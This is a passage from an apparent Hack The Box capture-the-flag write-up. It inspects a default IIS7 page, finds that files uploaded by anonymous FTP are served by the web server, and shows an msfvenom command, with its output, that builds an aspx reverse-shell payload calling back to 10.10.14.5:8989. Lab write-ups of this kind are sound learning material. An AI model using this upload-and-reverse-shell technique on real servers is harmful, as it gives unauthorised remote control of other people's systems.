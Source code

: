 we can able to see that three files which is ```aspnet_client``` ```iisstart.htm``` ```welcome.png``` out of this three file the file name ```aspnet_client ``` directory looks familiar because the same name directory on gobuster result, let's go to web and view source code 

``` HTML {hl_lines=[29]}
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>IIS7</title>
<style type="text/css">
<!--
body {
	color:#000000;
	background-color:#B3B3B3;
	margin:0;
}

#container {
	margin-left:auto;
	margin-right:auto;
	text-align:center;
	}

a img {
	border:none;
}

-->
</style>
</head>
<body>
<div id="container">
<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"><img src="welcome.png" alt="IIS7" width="571" height="411" /></a>
</div>
</body>
</html>
```

## Exploiting 
On source code we can able to find ```Welcome.png``` image which is same image located on ```FTP``` now we can clear that the ```IIS SERVER ``` is hosted on t he ftp shared directory, we already logged in FTP with anonymous user, if we add anything to ftp directory, that added file reflect on web server. 

so lets write reverse shell payload in the aspx format, and put the payload into ftp directory, the reson we creating aspx format becouse we have already identified the web technology 

``` Bash
─[_]─[atom@atom-vmwarevirtualplatform]─[~/htb/machines/devil]                                           
└──_ $msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.5 LPORT=8989 -o wrs2.aspx             
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                   
[-] No arch selected, selecting arch: x86 from the payload                                               
No encoder specified, outputting raw payload                                                             
Payload size: 324 bytes                                                                                  
Final size of aspx file: 2720 bytes                                                                      
```